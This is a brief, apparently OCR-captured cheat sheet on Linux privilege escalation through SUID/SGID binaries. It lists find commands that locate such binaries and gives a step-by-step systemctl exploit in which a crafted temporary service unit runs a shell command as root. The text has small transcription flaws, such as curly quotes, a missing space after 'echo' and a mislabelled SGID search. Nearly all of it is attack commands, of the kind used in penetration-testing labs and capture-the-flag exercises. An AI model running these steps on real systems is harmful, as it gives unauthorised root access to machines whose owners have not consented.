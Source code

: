<H3>Escalation via SUID or SGID</H3>
u can use this when u established foothold/access
command:
**(SGID)**: 
	``find / -type f -perm -04000 -ls 2>/dev/null
OR
**(SUID)**: 
	``find / -perm -u=s -type f 2>/dev/null

sample: usr/bin/systemctl

go to gtfobins and look for suid
sudo sh -c ‘cp $(which systemctl) .; chmod +s ./systemctl'

(enter this line by line)
TF=$(mktemp).service
echo'[Service]
Type=oneshot
ExecStart=/bin/sh -c “id > /tmp/output”
[install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
after pasting all, u must run:

cat /tmp/output